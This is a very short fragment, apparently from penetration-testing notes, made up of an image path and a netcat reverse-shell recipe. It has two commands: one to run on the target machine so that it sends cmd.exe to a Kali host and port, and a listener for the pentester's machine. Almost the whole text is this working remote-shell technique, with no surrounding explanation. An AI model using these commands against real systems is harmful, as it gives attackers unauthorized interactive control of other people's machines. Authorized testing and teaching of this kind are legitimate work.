 **In the targeted machine**

```
nc.exe $kaliIP $kaliPort -e cmd.exe
```

**In the pentester's machine**

```
nc -lvp port
```

